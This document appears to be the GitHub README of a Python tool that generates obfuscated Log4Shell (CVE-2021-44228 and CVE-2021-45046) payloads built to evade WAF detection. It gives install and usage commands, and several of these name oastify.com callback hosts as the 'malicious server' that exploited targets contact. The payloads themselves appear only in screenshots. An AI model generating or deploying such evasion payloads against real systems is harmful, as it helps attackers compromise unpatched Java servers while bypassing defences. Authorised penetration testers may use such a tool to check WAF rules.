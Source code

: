 # Log4Shell-obfuscated-payloads-generator
Log4Shell-obfuscated-payloads-generator can generate primary obfuscated or secondary obfuscated CVE-2021-44228 or CVE-2021-45046 payloads to evade WAF detection.

[The design idea of ​​Log4Shell-obfuscated-payloads-generator](https://r3kind1e.github.io/2022/05/26/Log4Shell-obfuscated-payloads-generator/)

## Installation
```
git clone https://github.com/r3kind1e/Log4Shell-obfuscated-payloads-generator.git
```

Log4Shell-obfuscated-payloads-generator works out of the box with Python version 3.x on any platform.

## Usage
To get a list of basic options use:

```
python3 Log4Shell-obfuscated-payloads-generator.py -h
```

To get usage examples use:

```
python3 Log4Shell-obfuscated-payloads-generator.py -hh
```

## Screenshots
`-h`: get a list of basic options
![help](img/help.png)

`-hh`: get usage examples
![usage-examples](img/usage-examples.png)

With a single option to generate payloads, the `-s` option specifies the malicious server:
```
--generate-primary-obfuscated-cve-2021-44228-payload 8 -s ck0pf4l6fmq4w0v17o7t894txk3arz.oastify.com
```
![primary44228](img/primary44228.png)
![burp-collaborator-client1](img/burp-collaborator-client1.png)

```
--generate-primary-obfuscated-cve-2021-45046-payload 4 -s x53a0p6r07bphlgms9setupei5owcl.oastify.com
```
![primary45046](img/primary45046.png)

```
--generate-secondary-obfuscated-cve-2021-44228-payload 5 -s oia1rpap41mhxkp6rdbbywit1k7avz.oastify.com
```
![secondary44228](img/secondary44228.png)
![burp-collaborator-client2](img/burp-collaborator-client2.png)

```
--generate-secondary-obfuscated-cve-2021-45046-payload 5 -s 3vzg44n4hgzwaz2l4soqbbv8ezkq8f.oastify.com
```
![secondary45046](img/secondary45046.png)

With multiple options to generate payloads, the `-s` option specifies a malicious server:
```
--generate-primary-obfuscated-cve-2021-44228-payload 4 --generate-secondary-obfuscated-cve-2021-44228-payload 4 -s exfr6fpfjr17ca4w63q1dmxjgam2ar.oastify.com
```
![primary44228secondary44228](img/primary44228secondary44228.png)

Without specifying a malicious server with the `-s` option, the `{{callback_host}}` placeholder will be preserved in the generated payloads:
```
--generate-primary-obfuscated-cve-2021-44228-payload 3
```
![primary44228-without-server](img/primary44228-without-server.png)
```
--generate-primary-obfuscated-cve-2021-45046-payload 3 --generate-secondary-obfuscated-cve-2021-45046-payload 7
```
![primary45046secondary45046](img/primary45046secondary45046.png)
